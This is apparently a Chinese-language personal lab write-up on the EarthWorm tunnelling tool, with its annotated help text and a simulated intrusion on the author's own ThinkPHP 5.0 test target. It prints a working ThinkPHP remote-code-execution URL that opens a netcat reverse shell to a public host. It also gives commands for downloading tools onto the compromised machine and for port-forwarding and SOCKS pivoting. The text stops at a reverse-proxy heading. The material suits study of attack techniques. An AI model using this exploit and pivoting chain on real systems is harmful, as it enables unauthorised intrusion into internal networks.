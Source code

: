
# - -help 
```
VERSION : free 1.0 
 ./xxx ([-options] [values])*
 options :
 Eg: ./xxx -s ssocksd -h 
 -s state setup the function.You can pick one from the 
 following options:
 ssocksd , rcsocks , rssocks , 
 lcx_listen , lcx_tran , lcx_slave
 # -s 选项选择连接模式，除了lcx的三种模式还有ssocksd正向SOCKS V5服务器、（rcsocks(公网监听转发主机)、rssocks（目标主机））反弹SOCKS V5服务器。
 -l listenport open a port for the service startup.#监听端口
 -d refhost set the reflection host address.#设置反射主机地址（公网IP）
 -e refport set the reflection port.#设置转发到的端口(公网端口)
 -f connhost set the connect host address .#设置连接主机地址（参考lcx的h2）要把这台内网主机的流量转发到公网上
 -g connport set the connect port.#设置要转发出去的端口（参考lcx的p2）
 -h help show the help text, By adding the -s parameter,
 you can also see the more detailed help.# 可以使用 ./ew -s [ssocksd|rcsocks|rssocks|lcx_listen|lcx_tran|lcx_slave]等获取关于具体模式的帮助
 -a about show the about pages # 显示关于
 -v version show the version. #显示版本
 -t usectime set the milliseconds for timeout. The default 
 value is 1000 #忙猜设置超时时间，默认1000  英语不好也可以猜
 ......
```

# 参考教程敲一遍（做个小模拟渗透）
**注：** 
- 攻击机位于我的笔记本上的kali nat联网 ip：192.168.153.133
- 被攻击的是校内我搭建的靶机 ip:10.203.87.64  环境：tp5.0
- 公网主机：45.\*.\*.190
## 做个小模拟渗透
利用命令执行弹shell
  
这次用NC弹shell
http://10.203.87.64/tp5/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc%20-e%20/bin/sh%2045.76.101.190%201235


公网服务器上面监听：
nc -l -p 1235
下载ew
wget -p /tmp http://45.\*.\*.190/ew_for_linux
chmod +x ew_for_linux

## 使用lcx相关的功能
### 将肉鸡的22端口或者内网中的10.203.87.61的80端口转发到公网上8888端口
`./ew_for_Linux32 -s lcx_slave -d 45.*.*.190 -e 2222 -f 127.0.0.1 -g 6522`

> 第一次用就出了一个问题
```
[root@localhost 45.*.*.190]# ./ew_for_Linux32 -s lcx_slave -d 45.*.*.190 -e 2222 -f 127.0.0.1 -g 6522
-bash: ./ew_for_linux: /lib/ld-linux.so.2: bad ELF interpreter: 没有那个文件或目录
```
> 解决方案到肉鸡上：yum install glibc.i686，那么如果肉鸡上没有安装权限可能就要换工具了

### 公网服务器监听端口转发8888
`./ew_for_Linux32 -s lcx_listen -l 443 -e 2222`


不知道为什么就是用不了 ssh抓包 握手成功了  请求也发出去了  就是没有相应 也不断开连接，从1.0换到1.2也不行，感觉像是防火墙的问题，但是使用lcx却连接上了，同样的端口ew就不行，一切连接都显示正常，就是不回包

# 直接测试socks代理吧还是

## 打开正向socks V5代理(好像多了一种用工作室的网的方式)
./ew_for_linux -s ssocksd -l 1080

## 反向代理
